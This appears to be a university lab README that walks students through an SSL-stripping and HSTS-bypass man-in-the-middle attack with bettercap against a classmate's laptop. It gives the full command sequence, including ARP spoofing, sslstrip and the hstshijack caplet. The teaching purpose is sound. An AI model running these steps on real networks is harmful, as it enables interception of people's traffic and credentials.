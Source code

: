 # SSLSTRIP + HSTSHIJACK

**SSL Stripping** or an **SSL Downgrade Attack** is an attack used to circumvent the security enforced by SSL certificates on HTTPS-enabled websites. In other words, SSL stripping is a technique that downgrades your connection from secure HTTPS to insecure HTTP and exposes you to eavesdropping and data manipulation.

**HTTP Strict Transport Security (HSTS)** is a policy mechanism that helps to protect websites against man-in-the-middle attacks such as protocol downgrade attacks and cookie hijacking. It allows web servers to declare that web browsers (or other complying user agents) should automatically interact with it using only HTTPS connections, which provide Transport Layer Security (TLS/SSL), unlike the insecure HTTP used alone.

The HSTS Policy is communicated by the server to the user agent via an HTTP response header field named **Strict-Transport-Security**. HSTS Policy specifies a period of time during which the user agent should only access the server in a secure fashion. Websites using HSTS often do not accept clear text HTTP, either by rejecting connections over HTTP or systematically redirecting users to HTTPS (though this is not required by the specification). The consequence of this is that a user-agent not capable of doing TLS will not be able to connect to the site.

## SSLSTRIP + HSTSHIJACK with BETTERCAP 
### **Goal**
In this session, our goal is to clone start an **sslstrip** attack against a victim also using the **hstshijack** module in order to avoid website **hsts** protection policy.

### **Settings**
Work in group with another collegue in order to work on your own laptop (avoiding GNS3 lab)
 * **Attacker:** you (in my case **192.168.1.135**)
 * **Victim:** your collegue (in my case **192.168.1.132**)
 * **Router:** you can use your phone. Both the **Attacker** and the **Victim** must be connected to the same network 

### **Steps**
 1. Login as root and install **bettercap**

        sudo su
        apt install bettercap

 2. Check your `iface` name

        iw dev

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/1.%20iw%20dev.png?raw=true)

 3. Run **bettercap** over your **iface**

        bettercap -iface wlp59s0
 4. Update **bettercap** mudules **(caplets)**
        
        caplets.updates
        caplets.show

 5. Check if **hstshijack/hstshijack** is installed

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/2.%20caplets.png?raw=true)

 6. Run **help** and check enabled modules

        help

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/3.%20modules%20enabled.png?raw=true)


 7. Set the **sslstrip** to **true** and enable **hstshijack** module:
       
        set http.proxy.sslstrip true
        hstshijack/hstshijack

 8. Check (again) enabled modules

        help

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/4.%20modules%20enabled.png?raw=true)

 9. Finally, enable **net.probe**, **net.sniff** and **arp.spoof** modules (respect this order!)

        net.probe on
        net.sniff on
        arp.spoof on

 10. Check (again and again) enabled modules

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/5.%20modules%20enabled.png?raw=true)

 11. On the **Victim** side try to navigate and https website
 
 12. Sniff the traffic

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/6.%20sniffing.png?raw=true)

 13. Stop **bettercap**

         quit

**Attention:** modern browser are able to prevent this kind of attack. If you are not to fully replicate the attack on your personal laptop, don't worry, try on the GNS3 laboratory (or study more in order to made it compatible also with modern technologies)